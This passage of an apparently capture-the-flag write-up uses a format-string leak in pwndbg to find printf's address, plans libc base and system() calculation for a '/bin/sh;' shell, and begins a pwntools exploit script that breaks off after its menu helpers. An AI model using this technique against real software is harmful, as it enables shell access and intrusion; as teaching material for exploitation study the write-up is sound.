![image-20220712221905504](https://cdn.ova.moe/img/image-20220712221905504.png)

According to the stack layout, we can identify `0x7ffe3a3d1758` as the position of `printf+153`. We can use `fmtarg 0x7ffe3a3d1758` to calculate the offset (or calculate with `6+12-1` otherwise).

```sh
pwndbg> fmtarg 0x7ffe3a3d1758
The index of format argument : 18 ("\%17$p")
```

This way, we determine the address of `printf+153`.

![image-20220712222931911](https://cdn.ova.moe/img/image-20220712222931911.png)

Next steps involve using the `libc-database` to determine the `libc` version and calculate `libc_base`, `system_addr`, and craft `/bin/sh;`.

> It's worth noting that `/bin/sh;` is constructed instead of `/bin/sh\x00` as `system()` may execute more than just `/bin/sh` preventing truncation.

Full exploit:

```python
from typing import Literal, Optional, AnyStr
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process(['./pwn'])


def menu(index: Literal[1, 2, 3]):
    sh.recvuntil(b"3.quit")
    if index == 1:
        sh.sendline(b"create string")
        return
    if index == 2:
        sh.sendline(b"delete string")
        return
    if index == 3:
        sh.sendline(b"quit string")


def create(length_: int, content: AnyStr):
    menu(1)
    sh.sendlineafter(b"Pls give string size:", str(length_).encode())
    content = content if isinstance(content, bytes) else str(content).encode()
    content = content.ljust(length_, b'\x00')
    sh.sendlineafter(b"str:", content)


def delete(index: int, extra: Optional[AnyStr] = b''):
    menu(2)
    sh.sendlineafter(b"id:", str(index).encode())
    if isinstance(extra, str):
        extra = extra.encode()
    sh.sendlineafter(b"Are you sure?:", b"yes" + extra)


def quit_():
    menu(3)


def gdb_(time_: Optional[int] = None, arg: Optional[str] = None):
    gdb.attach(sh, arg)
```